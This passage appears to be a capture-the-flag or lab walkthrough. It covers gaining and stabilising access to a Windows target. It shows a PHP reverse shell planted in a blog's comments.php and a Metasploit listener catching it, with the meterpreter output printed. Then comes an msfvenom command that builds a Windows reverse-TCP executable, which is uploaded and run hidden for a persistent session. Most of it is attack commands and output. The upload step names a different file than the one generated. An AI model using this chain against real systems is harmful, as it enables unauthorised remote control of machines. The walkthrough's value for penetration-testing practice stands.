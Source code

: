 **Now change listener options and run it**

```bash
set LHOST <LOCAL IP>
set LPORT 53

run
```

### Call shell loading malicious php file

Since I've pasted my shell into comments.php file, I have to visit page which displays comment and allow to post them. I can open one of Wade's posts and get shell


**Response from msfconsole**

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on <LOCAL IP>:53 
[*] Sending stage (39927 bytes) to <TARGET IP>
[*] Meterpreter session 1 opened (<LOACAL IP>:53 -> <TARGET IP>:51078)

meterpreter > 
```

We've reverse shell connection. From there I suggest you to upload .exe shell which is more stable. Let's generate new payload


### Shell stabilisation

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=666 -f exe > win_shell.exe
```

In msfconsole, move to directory where you have write permissions and upload your shell.

```batch
cd C:\Users\All Users
upload shell.exe
```


Open new msfconsole, **use multi/handler** and **set payload windows/meterpreter/reverse_tcp**


```bash
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```

> Remember to set LPORT and LHOST


Run listener and then execute shell.exe on previous meterpreter

```bash
meterpreter > execute -f "win_shell.exe" -H
```
